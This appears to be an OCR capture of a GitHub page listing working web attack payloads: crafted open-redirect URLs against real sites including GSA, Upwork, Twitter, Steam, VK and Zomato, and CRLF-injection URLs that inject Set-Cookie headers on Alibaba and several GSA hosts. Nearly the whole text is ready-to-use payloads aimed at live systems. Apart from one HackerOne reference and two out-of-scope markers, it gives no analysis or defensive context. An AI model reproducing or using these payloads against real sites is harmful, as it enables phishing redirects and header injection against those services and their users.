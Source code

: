 **Open redirects:**

https://www.mysales.fas.gsa.gov/google.com/

https://www.upwork.com/signup/verification-success?redirectTo=https%3a%2f%2fgoogle%2ecom%5c%2ewww%2eupwork%2ecom%2f&flowName=client_high_potential

https://twitter.com/login?redirect_after_login=https%3a%2f%2f%63%61%72%64s%2etwitter%2ecom%2fcards%2f18ce54su0k1%2f6tc5h

https://store.steampowered.com/paypal/launchauth/?webbasedpurchasing=1&transid=2614806773554997295&authurl=https%3A%2F%2Fduckduckgo.com%2Forb%2Forb%3FACTION%3DDO_START%26REF%3D000000003700003159190000100001%26MAC%3D7UYgidiXPXlSwepsEkIkt2cjtzUjBN4cskq05erf%252Bhk%253D&s=5b57c3c66fea1edb71950f1b

https://cards.twitter.com/cards/18ce53vq7ws/5xxeq

https://vk.com/login?u=2&to=YXdheS5waHA/dG89aHR0cDovL2FtcC5ncy9Wb3VxJnBvc3Q9LTIwNjI5NzI0XzExNjAyMDImY2Nfa2V5P

https://vk.com/notifier.php - redirect via referrer, "Back" button

https://www.zomato.com/login?redirect_url=https://askdcodes.org - taken from https://hackerone.com/reports/473064

**CRLF injections:**

CRLF injection (OOS) - https://jiagong.china.alibaba.com//xxx/x%23%0dSet-Cookie:%20a=a;

CRLF injection (OOS) -  https://www.mysales.fas.gsa.gov///%0aSet-Cookie:%201=1;
Same at https://www.fleet.fas.gsa.gov/
https://www.fleeteur.fas.gsa.gov/
https://www.cars.fas.gsa.gov/
https://www.fleeteurb.fas.gsa.gov/
https://www.fmvrs.fas.gsa.gov/
